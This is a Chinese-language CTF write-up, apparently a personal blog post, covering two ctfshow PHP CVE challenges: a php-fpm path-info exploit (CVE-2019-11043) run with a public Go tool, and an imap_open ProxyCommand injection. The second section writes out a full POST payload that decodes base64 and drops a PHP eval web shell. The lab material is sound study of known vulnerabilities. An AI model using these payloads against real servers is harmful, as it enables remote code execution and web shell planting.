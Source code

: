 ```yaml
---
title: CVEstu
date: 2024-07-27 21:03:24
permalink: /pages/3dab5b/
categories:
  - wp
tags:
  - 
author: 
  name: ajay
  link: https://the0n3.top
---
```

# ctfshow php CVE wtiteup

## web 311  CVE-2019-11043

打开题目，看到f12网络响应中，php版本7.33dev，浏览器搜索相关CVE漏洞，找到是php-fpm 漏洞 (CVE-2019-11043)，在Github中存在相关exp，[项目地址](https://github.com/neex/phuip-fpizdam)

漏洞成因

```
location ~ [^/]\.php(/|$) {
  ...
  fastcgi_split_path_info ^(.+?\.php)(/.*)$;
  fastcgi_param PATH_INFO       $fastcgi_path_info;
  fastcgi_pass   php:9000;
  ...
}
```
- Nginx + php-fpm，location ~ [^/]\.php(/|$)必须转发到 php-fpm
- 此漏洞假设fastcgi_split_path_info指令存在且包含以 开头^并以 结尾的正则表达式$，可以尝试使用换行符来破坏正则表达式。


题目需要Go环境，没有先安装环境

```bash
sudo apt update
sudo apt install golang
```

go官方服务器在国外，国内无法访问，设置go国内代理

```bash
git clone https://github.com/neex/phuip-fpizdam.git
cd phuip-fpizdam
go env -w GOPROXY=https://goproxy.cn
go get -v && go build
```

利用工具破坏 fastcgi_split_path_info 指令来使题目达到命令执行

```bash
go run . "http://92cdd785-55c4-4b35-85fa-ae1dc7fdc367.challenge.ctf.show/index.php"
```

在题目后传入命令a参数

```
url?a=ls
```

命令参数可能需要多次传入才会有回显

## web 312  IMAP(CVE-2018-19158)

相关漏洞：php imap(CVE-2018-19158)，php的imap邮件扩展

:::tip
IMAP协议（因特网消息访问协议）它的主要作用是邮件客户端可以通过这种协议从邮件服务器上获取邮件的信息，下载邮件等。它运行在TCP/IP协议之上，使用的端口是143。在php中调用的是imap_open函数
:::

函数分析

```php
imap_open(string $mailbox,string $user,string $password）
```

其中参数mailbox,是用来连接邮箱服务器的。它会调用rsh来连接远程shell，在debian/ubuntu环境默认使用ssh来代替rsh

$mailbox参数的值由服务器名和服务器上的mailbox文件路径所组成

```php
$mbox = imap_open ("{localhost:993/PROTOCOL/FLAG}INBOX", "user_id", "password");
```

INBOX代表的是当前用户的个人邮箱。在花括号内的字符串中，有服务器域名(或者IP地址)、端口号以及协议名称，标志。用户可以在协议名后设置（第3个参数）。

这个漏洞从第一个参数着手，POC格式：x+-oProxyCommand%3decho%09编码后的内容|base64%09-d|sh}

好现在我们把这个POC补充完整，缺少一个bash64编码的shell命令

```bash
# 注意echo用单引号，双引号$会出现特殊含义导致错误
echo '<?php eval($_POST[1]);?>' > 1.php
# 编码后的sh，如果存在+=，再进行一次url编码
ZWNobyAnPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+JyA+IDEucGhw
# payload
ZWNobyAnPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8%2BJyA%2BIDEucGhw
```

替换后的payload：

```
x+-oProxyCommand%3decho%09ZWNobyAnPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8%2BJyA%2BIDEucGhw|base64%09-d|sh}
```


只给一个服务器地址就能执行，邮箱密码随便了。用hackbar的post,bp发包都可以

post：
```
hostname=x+-oProxyCommand%3decho%09ZWNobyAnPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8%2BJyA%2BIDEucGhw|base64%09-d|sh}&username=1&password=1
```

参考：
- [php imap(CVE-2018-19158)](https://cws6.github.io/2018/12/19/php-imap-CVE-2018-19158/)
- [CVE-2018-19518 PHP-IMAP 复现和学习 （环境CTFShow web312）](https://cws6.github.io/2018/12/19/php-imap-CVE-2018-19158/)
- [PHP 远程命令执行漏洞（CVE-2018-19518）](https://blog.csdn.net/qq_46501419/article/details/115050909)
- [Practice - CTFSHOW WEB入门 PHP-CVE篇](https://hextuff.dev/2022/06/03/ctfshow-web-getting-started-php-cve/)


## 正在更新....